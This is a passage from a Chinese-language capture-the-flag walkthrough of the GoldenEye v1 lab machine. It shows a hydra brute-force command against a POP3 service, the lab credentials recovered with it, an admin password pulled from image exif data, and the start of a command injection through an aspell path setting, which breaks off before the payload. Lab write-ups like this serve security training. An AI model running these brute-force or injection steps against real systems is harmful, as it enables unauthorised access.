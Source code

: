 ```bash
hydra -v -l doak -P /usr/share/wordlists/fasttrack.txt -t 20 192.168.43.239 -s 55007 -I pop3
```

![image-20200628212906236]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628212906236.png)

```bash
doak:goat
```

换账户登录邮件

![image-20200628213117682]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628213117682.png)

```bash
username: dr_doak
password: 4England!
```

使用新凭证登录网站，消息中有和admin user的联系人，但是并没有什么消息。

![image-20200628213247498]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628213247498.png)

但是在个人文件中发现线索

![image-20200628213453978]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628213453978.png)

![image-20200628213526657]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628213526657.png)

```bash
http://severnaya-station.com/dir007key/for-007.jpg
```

![image-20200628213606940]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628213606940.png)

注意到图片下方的文字，捡起了一把access key，应该有凭证

下载到本地分析

![image-20200628213831947]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628213831947.png)

exif中存有base64信息

![image-20200628213928650]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628213928650.png)

```bash
xWinter1995x!
```

猜测为admin密码。

尝试登录网站

成功，并且admin拥有额外的管理功能。在system paths中的aspell看上去是可以执行系统命令的。

![image-20200628214349022]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628214349022.png)

我们来尝试写入我们自己的payload，注意，这里一定要保留 sh -c，而中间的内容则可以修改。因为这个PSpellshell中并不能直接执行，而是要先调用sh，让sh去执行命令。
